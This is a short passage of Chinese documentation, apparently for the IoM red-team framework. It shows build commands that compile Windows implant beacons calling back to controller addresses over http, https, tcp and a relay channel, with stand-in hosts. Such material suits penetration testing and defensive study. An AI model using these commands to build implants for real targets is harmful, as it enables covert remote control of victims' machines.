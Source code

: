 在IoM中，malefic(即implant)的相关特性是通过编译命令中的`profile`与`build`相关指令来控制。

## 通过暴露的参数执行编译

目前beacon信道支持方式主要为tcp(tcp+tls)、http(https)、rem.
你可以通过如下的指令来快速编译一个所需的beacon.

对于常规的http/tcp相关信道，你可以使用如下命令来进行构建
```
build beacon --addresses "http://127.0.0.1:8080" --target x86_64-pc-windows-gnu # http

build beacon --addresses "https://primary.example.com:443,https://second.example.com:443" --target x86_64-pc-windows-gnu # https

build beacon --addresses "tcp://127.0.0.1:5001" --target x86_64-pc-windows-gnu # tcp

build beacon --addresses "tcp+tls://127.0.0.1:5001" --target x86_64-pc-windows-gnu # tcp with tls
```

对于rem信道，需要指定两个参数，一个为rem的link地址，一个为rem转发到的实际后端地址.

```
build beacon --addresses "tcp://127.0.0.1:5001" --rem "tcp://nonenonenonenone:@123.123.123.123:12345?wrapper=ls..." --target x86_64-pc-windows-gnu
```

![img.png](/IoM/assets/usage/build/build_beacon_with_rem.png)

当你拥有多种模式的构建方式配置(docker、saas、action)时, 你可以通过`source`来明确的指定使用哪一种,默认的source优先级为"docker > saas > github action"
```
build beacon --addresses "http://127.0.0.1:8080" --target x86_64-pc-windows-gnu --source docker
```


## 通过profile进行编译

由于功能特性的复杂，直接暴露的参数并不能完美的控制并发挥Implant的真正实力. profile会支持你做更细化的控制.
